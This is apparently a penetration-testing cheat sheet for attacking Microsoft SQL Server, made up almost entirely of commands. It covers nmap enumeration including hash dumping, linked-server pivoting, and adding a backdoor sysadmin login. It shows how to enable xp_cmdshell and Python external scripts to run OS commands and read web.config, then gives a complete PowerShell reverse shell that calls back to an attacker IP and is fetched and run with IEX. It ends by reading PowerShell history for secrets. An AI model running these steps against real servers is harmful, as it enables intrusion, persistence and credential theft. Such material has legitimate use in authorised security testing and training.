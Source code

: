 # MSSQL: Port 1443

1. Perform a quick nmap scan

        nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>

2. Connect to MSSQL server using [Impacket](../../Network/Network/impacket_tools/README.md)'s `mssqlclient.py` tool (when database credentials are known)

        $ ./examples/mssqlclient.py domain/username@10.12.13.4

3. Once connected, check if the current SQL user has sysadmin (highest level) privileges on the SQL Server 

        SQL> select is_srvrolemember('sysadmin')

4. Try following commands

        SQL> select suser_name()
        SQL> select name,sysadmin from syslogins
        SQL> select srvname,isremote from sysservers
        SQL> select name from sysdatabases

    Identify any linked server

5. Execute queries on a **linked server**, if one exists

        SQL> exec('select current_user') at [LinkedServer\ServerName];
        SQL> exec('select name,sysadmin from syslogins') at [LinkedServer\ServerName];
        SQL> exec('select srvname,isremote from sysservers') at [LinkedServer\ServerName];
        SQL> exec('exec(''select suser_name()'') at [NestedLinkedServer\NestedServerName]') at [LinkedServer\ServerName]

6. Sysadmin-level users can enable and execute system commands using the `xp_cmdshell` stored procedure. 
   1. Add a **new SQL user**.

            exec sp_addlogin 'mirage','Password123'

   2. Give **sysadmin** privileges to the user

            exec sp_addsrvrolemember 'mirage','sysadmin'

   3. Connect to MSSQL server as a sysadmin

            mssqlclient.py mirage@10.12.13.4

   4. Enable `xp_cmdshell` with `sp_configure`
            
            SQL> sp_configure 'show advanced options', '1'
            SQL> RECONFIGURE
            SQL> sp_configure 'xp_cmdshell', '1' 
            SQL> RECONFIGURE

   5. Execute commands

            SQL> xp_cmdshell whoami
            SQL> xp_cmdshell "dir c:\"
            SQL> xp_cmdshell icacls C:\inetpub\wwwroot\web.config

   6. Execute **externals scripts** written in R or Python

            SQL> sp_configure 'external scripts enabled',1
            SQL> RECONFIGURE
            SQL> sp_execute_external_script @language = N'Python', @script = N'print("Hello world!");';
            SQL> sp_execute_external_script @language = N'Python', @script = N'import os; os.system(''dir C:\\inetpub\\wwwroot'')';
            SQL> sp_execute_external_script @language = N'Python', @script = N'import os; os.system(''type C:\\inetpub\\wwwroot\\web.config'')';

7. Gain **remote code execution (RCE)** on the host
   1. Create `shell.ps1` file with following contents, after replacing the text "<ATTACKER_IP_HERE>" with actual attacker IP address

            $client = New-Object System.Net.Sockets.TCPClient("<ATTACKER_IP_HERE>",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 

   2. Host the above file 

            python3 -m http.server 80 

   3. Start a netcat listener on port 443

            nc -lvnp 443

   4. Use `ufw`, if required, to allow the call backs on port 80 and 443 of attacker machine

             ufw allow from <VICTIM_IP_HERE> proto tcp to any port 80,443 

   5. Download and execute the powershell reverse shell script

            xp_cmdshell powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<ATTACKER_IP_HERE>/shell.ps1\");" 

8. Read the contents of **PowerShell history** file

        type C:\Users\USUERNAME\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 

## Resources

* https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
* https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15
* https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/
* https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15
* https://www.cyberciti.biz/faq/howto-ms-sql-list-tables-and-database/
* https://chartio.com/resources/tutorials/sql-server-list-tables-how-to-show-all-tables/